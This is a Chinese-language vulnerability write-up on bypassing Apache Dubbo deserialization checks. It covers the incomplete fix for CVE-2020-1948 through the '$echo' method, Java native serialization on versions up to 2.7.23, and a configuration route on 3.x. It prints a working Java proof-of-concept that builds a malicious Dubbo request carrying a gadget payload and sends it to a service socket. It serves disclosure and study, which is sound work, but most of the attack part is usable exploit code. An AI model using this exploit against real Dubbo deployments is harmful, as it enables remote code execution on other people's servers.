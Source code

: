 # Dubbo Bypass deserialization checks

## 0x01 第一次尝试

在复现 Dubbo 历史漏洞时，发现 CVE-2020-11995 即对 CVE-2020-1948 的修复不完全，`$echo` 仍然存在利用方式，后续版本因为引入了 Hessian 黑名单将该问题很好的隐藏了，但是仍存在原生反序列化的利用方式，并且影响版本  <=2.7.23，如果修改配置后会影响到所有版本，上报给 Dubbo 后并不接受认为这是应该交由用户管理的安全问题，所以将该利用公开。

![dubbo](attachments/dubbo.gif)

## 0x02 分析

在 2.7.8 这个版本中，通过修改 `org.apache.dubbo.rpc.support.RpcUtils#isEcho()` 这个方法对 CVE-2020-1948 进行了修复，但是该判断并不严格

![image-20240206112813014](attachments/image-20240206112813014.png)

仍然可以接受来自用户的 Object 对象，因此可以构建如下 payload 实现利用。不过在 Dubbo 2.7.14 版本中修改了 `com.alibaba.com.caucho.hessian.io.ClassFactory` 这个类，在 `readObject()` 时通过黑名单的方式限制了 Hessian 反序列化，以至于该问题被似乎合理的隐藏掉了。

```
oos.writeUTF("0.0.0");
oos.writeUTF("org.example.api.DemoService");
oos.writeUTF("0.0.0");
oos.writeUTF("$echo");
oos.writeUTF("Ljava/lang/Object;");
oos.writeObject(payload);
oos.writeObject(new HashMap());
oos.flushBuffer();
```

![image-20240206112408859](attachments/image-20240206112408859.png)

![image-20240206112344405](attachments/image-20240206112344405.png)

## 0x03 pwned <=2.7.23

而更进一步也不是什么秘密，既然是 Hessian 的黑名单，修改 `header[2]` 指定为 Java 反序列化的方式就可以实现利用，在 2.x 版本中对于这种方式并没有安全验证。

```java
public static void main(String[] args) throws Exception {
    Object o = GadgetBuilder.fastjson("open -a Calculator.app");

    // header.
    byte[] header = new byte[16];

    // set magic number.
    Bytes.short2bytes((short) 0xdabb, header);

    // set request and serialization flag.
    // 2 -> "hessian2"
    // 3 -> "java"
    // 4 -> "compactedjava"
    // 6 -> "fastjson"
    // 7 -> "nativejava"
    // 8 -> "kryo"
    // 9 -> "fst"
    // 10 -> "native-hessian"
    // 11 -> "avro"
    // 12 -> "protostuff"
    // 16 -> "gson"
    // 21 -> "protobuf-json"
    // 22 -> "protobuf"
    // 25 -> "kryo2"
    header[2] = (byte) (0x80 | 3 | 0x40);

    // set request id.
    Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    /* For Requests, we need to encode the following objects
          1.dubboVersion
          2.path
          3.version
          4.methodName
          5.methodDesc
          6.paramsObject
          7.map
        */
    oos.writeInt(666);
    oos.writeUTF("0.0.0");
    oos.writeInt(666);
    oos.writeUTF("org.example.api.DemoService");
    oos.writeInt(666);
    oos.writeUTF("0.0.0");
    oos.writeInt(666);
    oos.writeUTF("$echo");
    oos.writeInt(666);
    oos.writeUTF("Ljava/lang/Object;");
    oos.writeByte(666);
    oos.writeObject(o);
    oos.close();

    Bytes.int2bytes(baos.size(), header, 12);

    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    byteArrayOutputStream.write(header);
    byteArrayOutputStream.write(baos.toByteArray());
    byte[] bytes = byteArrayOutputStream.toByteArray();
    
    Socket socket = new Socket("127.0.0.1", 12345);
    OutputStream outputStream = socket.getOutputStream();
    outputStream.write(bytes);
    outputStream.flush();
    outputStream.close();
}
```

这个问题在 3.x 以上版本被修复，默认开启了 `SERIALIZATION_SECURITY_CHECK_KEY` 检查，这个方法还有一个被忽略的作用 `org.apache.dubbo.remoting.transport.CodecSupport#checkSerialization()` 会检测序列化 id，因为我们构造的是 java 与默认的 hessian 不匹配所以没法利用。

![image-20240225105722921](attachments/image-20240225105722921.png)

![image-20240225085038020](attachments/image-20240225085038020.png)

## 0x04 修改配置文件实现 3.x 版本的利用

我们继续看一下 `org.apache.dubbo.common.URL#getParameter()` 这个方法做了什么，首先通过 `org.apache.dubbo.common.url.component.param.DynamicParamTable#getKeyIndex()` 获取 `keyIndex` 当获取为 null 时会直接从 `EXTRA_PARAMS` 中获取。 `EXTRA_PARAMS` 我们是知道的，在 spring 项目中可以通过配置文件设置 `dubbo.provider.serialization=java`，所以实现在 3.x 版本中的利用。

![image-20240225105423195](attachments/image-20240225105423195.png)

但是这种方式的利用并不被 Dubbo 认可，Dubbo 官方认为用户主动启用 java 反序列化这种方式后，安全问题应该交由用户来处理





